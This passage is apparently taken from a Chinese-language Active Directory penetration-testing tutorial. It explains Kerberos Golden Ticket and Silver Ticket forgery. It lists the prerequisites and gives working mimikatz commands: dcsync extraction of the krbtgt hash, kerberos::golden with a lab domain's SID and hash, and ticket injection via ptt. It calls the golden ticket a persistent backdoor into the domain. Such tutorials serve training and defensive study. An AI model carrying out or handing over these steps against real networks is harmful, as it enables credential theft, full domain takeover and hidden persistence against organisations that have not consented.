 
![](https://gitee.com/fuli009/images/raw/master/public/20220220001718.png)

现在就可以访问域控的文件夹了

![](https://gitee.com/fuli009/images/raw/master/public/20220220001720.png)

至于用其他工具反弹cmd可以自己探索！

### 0x3-2 Golden Ticket(黄金票据)

Golden
ticket的作用是可以生成任意用户的tgt,那么问题就来了,是什么条件能够让他生成任意用户的tgt呢？还得要看kerberos认证的过程,在windows认证过程中，客户端将自己的信息发送给KDC,然后KDC使用krbtgt用户密码的hash作为密钥进行加密，生成TGT。

krbtgt只有域控制器上面才有，所以使用黄金凭据意味着你之前拿到过域控制器的权限,黄金凭据可以理解为一个后门。

伪造黄金凭据需要具备下面条件：

  * krbtgt用户的hash(就意味着你已经有域控制器权限了)
  * 域名称
  * 域的SID值
  * 要伪造的用户名

    
    
    privilege::debug  
    lsadump::dcsync /domain:god.org /user:krbtgt  
    

![](https://gitee.com/fuli009/images/raw/master/public/20220220001721.png)

    
    
    kerberos::golden /admin:system /domain:god.org /sid:S-1-5-21-2952760202-1353902439-2381784089-1000 /krbtgt:58e91a5ac358d86513ab224312314061 /ticket:ticket.kirbi  
    

![](https://gitee.com/fuli009/images/raw/master/public/20220220001722.png)

    
    
    kerberos::purge #清除票据  
    kerberos::ptt 票据地址 #将票据注入内存  
    

![](https://gitee.com/fuli009/images/raw/master/public/20220220001723.png)

成功访问！

### 0x3-3 Silver Ticket(白银票据)

如果说黄金票据是伪造的 TGT,那么白银票据就是伪造的 ST。在 Kerberos 认证的第三部，Client 带着 ST 和 Authenticator3
向 Server 上的某个服务进行请求，Server 接收到 Client 的请求之后,通过自己的 Master Key 解密 ST,从而获得
Session Key。通过 Session Key 解密 Authenticator3,进而验证对方的身份,验证成功就让 Client 访问 server
上的指定服务了。所以我们只需要知道 Server 用户的 Hash 就可以伪造出一个 ST,且不会经过 KDC,但是伪造的门票只对部分服务起作用。

白银票据这里只是对单一的服务进行授权，利用过程和golden ticket差不多，首先上域控制器中，把机器的ntlm hash(rc4加密)
dump下来，然后在普通域用户机器进行伪造权限，进行ptt。
